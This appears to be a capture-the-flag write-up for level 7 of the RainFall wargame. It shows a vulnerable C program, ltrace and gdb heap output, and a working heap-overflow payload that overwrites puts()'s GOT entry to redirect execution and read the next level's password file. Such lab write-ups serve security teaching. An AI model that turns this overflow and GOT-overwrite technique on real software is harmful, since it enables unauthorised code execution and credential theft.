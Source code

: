 # Level7

## Code
```
#include <stdio.h>
#include <stdlib.h>

char c[80] = "";

void m()
{
    printf("%s - %d\n", &c, time(NULL));
}

int main(int argc, char** argv)
{
    int* s1 = malloc(8);
    s1 = 1;
    s1[1] = malloc(8);
    int s2 = malloc(8);
    *s2 = 2;
    s2[1] = malloc(8);

    strcpy(s1[1], argv[1]);
    strcpy(s2[1], argv[2]);

    fgets(&c, 68, fopen("/home/user/level8/.pass", "r"));
    puts("~~");
    return (0);
}
```


## Explanation

- Here, the main() calls malloc 4 times before using the 2nd and 4th as the dest for strcpy() of
    argv[1] and argv[2].

- Thanks to ltrace, we can see the addresses allocated by calls to malloc() :
```
level7@RainFall:~$ ltrace ./level7
    __libc_start_main(0x8048521, 1, 0xbffff804, 0x8048610, 0x8048680 <unfinished ...>
    malloc(8)                                           = 0x0804a008
    malloc(8)                                           = 0x0804a018
    malloc(8)                                           = 0x0804a028
    malloc(8)                                           = 0x0804a038
```
- We can exploit strcpy to overflow a buffer.

- When we display the heap in gdb after the 2 calls to strcpy with argv[1] = "AAAA" and argv[2] = "BBBB"
    we get the following output :
```
(gdb)  x/120x 0x804a000
    0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
    0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
    0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
    0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
    0x804a040:	0x00000000	0x00020fc1	0x00000000	0x00000000
    0x804a050:	0x00000000	0x00000000	0x00000000	0x00000000
```
- We can see our 2 strings very clearly, and we can also see the 2 addresses of these strings
    , which are the return values of 2nd and 4th calls to malloc() next to the values 1 and 2.

- The idea here is to overflow argv[1] to fill the memory until the spot where the address of the
    2nd string is, in order to replace this address with the GOT entry for puts().

- Then, the second strcpy will jump there instead of the original spot in the heap, and write argv[2]
    which will contain the address of the winning function m().

- This way, when the program calls puts(), the GOT entry tells it that puts() is at the address of m().

## Exploit
- This is the final payload: 
```
$   ./level7 "$(python -c "print 'A'*20+'\x28\x99\x04\x08'")" $(python -c "print '\xf4\x84\x04\x08'")
``` 

argv[1] :
        20 random bytes to reach the desired address
    +   the GOT entry for puts()
argv[2] :
        the address of m()
     
